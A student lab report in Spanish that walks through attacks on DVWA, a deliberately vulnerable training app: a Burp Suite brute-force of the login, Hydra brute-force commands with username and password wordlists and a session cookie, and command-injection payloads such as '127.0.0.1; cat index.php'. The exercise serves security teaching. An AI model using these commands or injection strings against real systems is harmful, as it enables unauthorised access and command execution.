# Act. 2.3 Realizar los siguientes Ataques al DVWA.

Para la realización de este trabajo inverti un total de 26 horas. Distribuidos en investigación y la creación del contenido.

Se utilizaron diversas herramientas y sistemas operativos, y ademas de ello se desarrollo la documentación en Markdown y se exporto a PDF.

### 1.- Realizar el ataque al dvwa haciendo un ataque de fuerza bruta. 8 Hr de Investigación y creación del contenido.

#### Video utilizado:

- https://www.youtube.com/watch?v=_5sk8OIpkXQ

#### A) Inicialización de Burp Suite.

Nos dirigimos a proxy, luego a intercepción, y ahi damos clic en activar intercecpción.



#### B) Obtención de datos de DVWA con Burp Suite.

Agregamos el nombre del administrador y una posible contraseña.



Después con Burp Suite enviamos la información al intruso.



Luego, seleccionamos el parámetro que queramos utilizar, siendo en este caso la contraseña.

Ahora en payload rellenamos nuestros datos de prueba.

    peregil
    doge
    password
    23423j42
    asdfsadf



Y en configuración, cambiamos las redirecciones a "siempre".



#### B) Ataque con Burp Suite.

Por último, damos clic en iniciar ataque.



Ahora, para identificar la contraseña correcta, utilizaremos su longitud, siendo que la contraseña correcta será, aquel valor que tenga mayor longitud.



Dando como conclusión que la contraseña correcta es: password

### 2.- Ataque a un formulario web al dvwa inicio de sesión. 12 Hr de Investigación y creación del contenido.

#### Videos utilizados:

- https://www.youtube.com/watch?v=YrMNih3Z-4Y
- https://www.youtube.com/watch?v=FAzRMqNGScs

#### A) Creación de Archivos para el ataque de fuerza bruta.

Primero mediante el uso de nano, creamos un archivo en formato txt para la gestión de los nombres:

    nano usernames.txt

Y ahí, agregaremos los datos que queramos mandar:

    root
    account
    Admin
    admin
    password
    test123

Para luego guardar el archivo en nuestra máquina virtual.



Manteniendo el nombre y el formato indicado al inicio.



Comprendiendo lo anterior, repetiremos entonces el mismo procedimiento, creando un archivo txt para ahora la gestión de las contraseñas.

    nano passwords.txt



Y ahí, agregaremos los datos que queramos mandar:

    test
    test123
    123456789
    admin
    root
    password
    password123



Para luego guardar el archivo en nuestra máquina virtual.

Manteniendo el nombre y el formato indicado al inicio.



#### B) Ejecución del Script de hydra.

Para realizar correctamente el ataque de fuerza bruta, le indicaremos a hydra la siguiente instrucción:

    hydra 192.168.68.107 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -L usernames.txt -P passwords.txt



A continuación te proporcionare una explicación detallada sobre cada elemento:

- 192.168.68.110: Es la dirección ip que queremos atacar.
- http-form-post: Envia peticiones web al servidor objetivo.
- /dvwa/login.php: Es la url que vamos a utilizar.
- username=^USER^: Es el nombre del campo seguido de una variable que sera reemplazada por valores referentes a nombres.
- password=^PASS^: Es el nombre del campo seguido de una variable que sera reemplazada por valores referentes a contraseñas.
- Login=submit: Es el nombre del campo seguido del valor submit
- Login failed: Es una cadena que se utilizará para determinar si el intento de inicio de sesión fue exitoso o falló.
- -L usernames.txt: Especifica el archivo que contiene la lista de nombres de usuario que se probarán en el formulario de inicio de sesión. Cada línea del archivo representa un nombre de usuario diferente.
- -P passwords.txt: Especifica el archivo que contiene la lista de contraseñas que se probarán junto con los nombres de usuario. Cada línea de este archivo representa una contraseña diferente.



Ahora bien, el código anterior por defecto nos mostrará varios posibles usuarios y contraseñas, sin embargo si queremos filtrar la información podemos utilizar este otro comando:

    hydra -l admin -p password 192.168.68.107 http-get-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=ev2sfnhn4ait9t3n3fmne3schn; security=low:F=Username and/or password incorrect" -V



A continuación te proporcionare una explicación detallada sobre cada nuevo elemento:

- PHPSESSID: Es la ID de sesión.
- security: Es el nivel de seguridad de dvwa.

Nota: Estos valores los podemos obtener mediante el uso de firefox.



- F=Username and/or password incorrect: : Define un filtro para determinar si la respuesta del servidor indica que el inicio de sesión ha fallado.



### 3.- Un ataque diferente a la aplicación dvwa. 6 Hr de Investigación y creación del contenido. ➜ Command Injection

#### Video utilizado:

- https://www.youtube.com/watch?v=YrMNih3Z-4Y

#### A) Ejecución de los comandos:

Visualizamos el contenido del directorio.

    127.0.0.1; ls



Mostramos el contenido de un archivo.

    127.0.0.1; cat index.php





Mostramos el nombre del usuario conectado.

    127.0.0.1; whoami

Mostramos el nombre del servidor.

    127.0.0.1; hostname



Mostramos información sobre las interfaces de red en la máquina.

    127.0.0.1; ifconfig



Mostramos el listado del contenido del directorio que se encuentra una carpeta atrás en la jerarquía de directorios.

    127.0.0.1; ls ../



Imprimimos un mensaje en pantalla.

    127.0.0.1 && echo "Haz sido hackeado"


